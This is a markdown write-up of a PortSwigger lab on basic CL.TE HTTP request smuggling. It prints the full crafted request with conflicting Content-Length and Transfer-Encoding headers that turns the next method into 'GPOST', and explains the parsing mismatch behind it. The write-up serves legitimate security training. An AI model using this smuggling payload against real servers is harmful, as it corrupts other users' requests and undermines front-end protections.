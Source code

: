 # HTTP - request smuggling, basic CL.TE vulnerability

## 📌 Lab Details
- **Title**: HTTP request smuggling, basic CL.TE vulnerability
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/ebc97abbe886e96facc0aaee856f55e2a45d4784f5d9025ffa5e994b7d8bc2bb?referrer=%2fweb-security%2frequest-smuggling%2flab-basic-cl-te

## 🔍 Summary
This lab exploits a mismatch where the front-end used `Content-Length` and the back-end used `Transfer-Encoding`, allowing a crafted request to turn the next request's method into `GPOST`, proving request smuggling.

## 🛠 Steps to Solve
1. Intercept the request and send it to **Burp Repeater**.
2. Now, issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 6
   Transfer-Encoding: chunked

   0

   G
   ```
3. The second response should say: `Unrecognized method GPOST`.

## 📖 Key Takeaways
- **CL.TE** vulnerability = *Content-Length honored by front-end, Transfer-Encoding honored by back-end*.
- Even small payloads (like a single `G`) can corrupt the next request method.
- Different parsing logic between servers can be exploited without needing a full second malicious request.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/2097a955-2647-475a-a0cf-cc05017c1127" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/c4cc771b-5252-4e9b-994d-83133b416c75" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/fd625bd9-f0b8-4fc5-ae74-a3eb0024d35d" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/985d165c-4651-4661-ab82-403a380003f8" />
